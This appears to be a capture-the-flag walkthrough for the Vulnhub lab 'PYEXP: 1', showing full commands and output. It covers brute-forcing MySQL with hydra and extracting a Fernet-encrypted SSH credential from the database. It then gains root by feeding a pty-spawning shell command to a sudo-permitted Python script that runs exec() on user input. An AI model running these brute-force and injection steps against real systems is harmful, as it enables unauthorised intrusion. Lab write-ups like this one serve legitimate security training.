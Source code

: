```yaml
---
title: PYEXP 1
author: am-a-circle
date: 2021-04-18 12:00:00 +0800
categories:  [TryHackMe]
tags: [gpg,nfs]
math: false
mermaid: false
---
```




## Overview

"PYEXP: 1" is an interesting box as it teaches the concept of  brute-forcing,database enumeration and exploiting dangerous python function.

|Box Difficulty| Link|
|--|--|
| Medium| [Vulnhub Link](https://www.vulnhub.com/entry/pyexp-1,534/) |

## Recon

As usual, the standard masscan follow by nmap.
```bash
# masscan -p1-65535  192.168.205.118  --rate=1000 -e tun0
Discovered open port 3306/tcp on 192.168.205.118
Discovered open port 1337/tcp on 192.168.205.118                 
```


```bash
└─# nmap -sV -sC -p 1337,3306 -oN /opt/OSCP_PlayG/PyExp/nmap_full.txt 192.168.205.118

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-17 11:25 EDT                                                                                                           
Nmap scan report for 192.168.205.118
Host is up (0.25s latency).

PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7:af:6c:d1:26:94:dc:e5:1a:22:1a:64:4e:1c:34:a9 (RSA)
|   256 46:d2:8d:bd:2f:9e:af:ce:e2:45:5c:a6:12:c0:d9:19 (ECDSA)
|_  256 8d:11:ed:ff:7d:c5:a7:24:99:22:7f:ce:29:88:b2:4a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 38
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, SupportsTransactions, InteractiveClient, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsCompression, LongColumnFlag, Speaks41ProtocolOld, FoundRows, SupportsLoadDataLocal, IgnoreSigpipes, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, ODBCClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: d5z)[o=~(GllWRri9}.i
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.69 seconds

```

From the output we can see that there is a SSH server on port 1337 and a MySQL service at port 3306. 
Honestly, there isn't much to work on so the only option I could think of was to brute-force MySQL for password.

## MYSQL - TCP 3306

Brute-forcing root password: 
```bash
└─# hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.205.118 mysql 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-17 11:45:00
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://192.168.205.118:3306/
[STATUS] 171.00 tries/min, 171 tries in 00:01h, 14344228 to do in 1398:05h, 4 active
...
...
[STATUS] 174.00 tries/min, 8178 tries in 00:47h, 14336221 to do in 1373:13h, 4 active
[3306][mysql] host: 192.168.205.118   login: root   password: prettywoman
1 of 1 target successfully completed, 1 valid password found
```

That took awhile but the result is that we obtain the root password for mysql. Let's enumerate the database for any credentials we can use to access the SSH server!



## Shell as Lucy

Enumerating the database:


```bash
└─# mysql --host 192.168.205.118 -u root -p                                                                                                                                                
Enter password:                                                                                                                                                                                    
Welcome to the MariaDB monitor.  Commands end with ; or \g.                                                                                                                                        
Your MariaDB connection id is 22205                                                                                                                                                                
Server version: 10.3.23-MariaDB-0+deb10u1 Debian 10                                                                                                                                                
                                                                                                                                  
MariaDB [(none)]> show databases;                                                                                                                                                                  
+--------------------+                                                                                                                                                                             
| Database           |                                                                                                                                                                             
+--------------------+
| data               |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.253 sec)

MariaDB [(none)]> use data;

Database changed
MariaDB [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| fernet         |
+----------------+
1 row in set (0.270 sec)

MariaDB [data]> select * from fernet;
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| cred                                                                                                                     | keyy                                         |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= | UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0= |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
1 row in set (0.282 sec)



```

After enumerating the database server there isn't much but the above.

As we can see from the above, there is a fernet table with the column name "cred" and "keyy" from the table name fernet.

A quick google about fernet leads me to **"fernet encryption"**
*:Fernet is a symmetric encryption method which makes sure that the message encrypted cannot be manipulated/read without the key.*

When inputting the Token and Key into the site here, [Fernet decryption!](https://asecuritysite.com/encryption/ferdecode)

We get the credentials below:
Decoded: lucy:wJ9`"Lemdv9[FEw-

Great ! Now we have a possible username and password! Let's try to SSH into the server
```bash
└─# ssh lucy@192.168.205.118 -p 1337                                                                                                                                                         
lucy@192.168.205.118's password: 
Linux pyexp 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
lucy@pyexp:~$ whoami
lucy
```

With that we are now in the system running as lucy!

## Shell as Root

One of the first things i like to do is run beside running `linpeas.sh` is to run `sudo -l` to see if the current user is able to run any privilege commands which can be abused.
```bash
lucy@pyexp:/tmp$ sudo -l
Matching Defaults entries for lucy on pyexp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on pyexp:
    (root) NOPASSWD: /usr/bin/python2 /opt/exp.py
```

Interestingly , we can run `/usr/bin/python2 /opt/exp.py` as root. A further look into the file reveals the below
```bash
lucy@pyexp:/tmp$ cat /opt/exp.py
uinput = raw_input('how are you?')
exec(uinput)

```
From the `exp.py` file above we can see that it takes a user input. But what is dangerous here is that the script uses the vulnerable `exec` function. 


Why is `exec` dangerous ? 
It is because it take strings and turn them into executable code!  A user could build a string so that it runs other Python functions to potentially erase all your data, expose your secret keys, dump your database, or perform other malicious actions. Since we can execute the file as a root user, the command executed will be as root. 


Thus a simple way to become root would be to use the python function to spawn a bash shell!

```bash
lucy@pyexp:/tmp$ sudo -u root /usr/bin/python2 /opt/exp.py
how are you?import pty; pty.spawn("/bin/bash")
root@pyexp:/tmp# whoami
root
root@pyexp:/tmp# id
uid=0(root) gid=0(root) groups=0(root)

```

And we are root!

